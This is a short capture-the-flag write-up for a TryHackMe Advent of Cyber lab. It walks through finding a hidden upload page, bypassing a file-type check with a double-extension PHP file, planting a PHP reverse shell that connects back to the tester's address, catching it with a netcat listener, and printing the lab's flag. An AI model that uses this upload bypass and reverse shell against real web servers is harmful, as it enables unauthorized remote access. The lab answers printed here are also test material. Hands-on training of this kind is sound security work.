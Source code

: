 # IP

`10.10.140.172`

# What string of text needs to be added to the URL to get access to the upload page?

```http://10.10.140.172/?id=ODIzODI5MTNiYmYw ```

# What type of file is accepted by the site?

We can check it in source of opened website

```accept=".jpeg,.jpg,.png"```

As suggested in description, I create a reverse php file ```shell.jpeg.php```:

```
set_time_limit (0);
$VERSION = "1.0";
$ip = '10.2.127.255';  // CHANGE THIS
$port = 443;       // CHANGE THIS
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; /bin/sh -i';
$daemon = 0;
$debug = 0;
```

Where `$ip` stands for IP of `tun0`

# In which directory are the uploaded files stored?

We can try standard names as ```/uploads/``` which works in this case

# Activate your reverse shell and catch it in a netcat listener!

```sudo nc -lvnp 443```

It will activate as soon as reverse shell php is activated.

# What is the flag in /var/www/flag.txt?

I navigate to a directory and get a flag

```
You've reached the end of the Advent of Cyber, Day 2 -- hopefully you're enjoying yourself so far, and are learning lots! 
This is all from me, so I'm going to take the chance to thank the awesome @Vargnaar for his invaluable design lessons, without which the theming of the past two websites simply would not be the same. 


Have a flag -- you deserve it!
THM{MGU3Y2UyMGUwNjExYTY4NTAxOWJhMzhh}


Good luck on your mission (and maybe I'll see y'all again on Christmas Eve)!
 --Muiri (@MuirlandOracle)
```

# IT WAS REALLY FUN !!
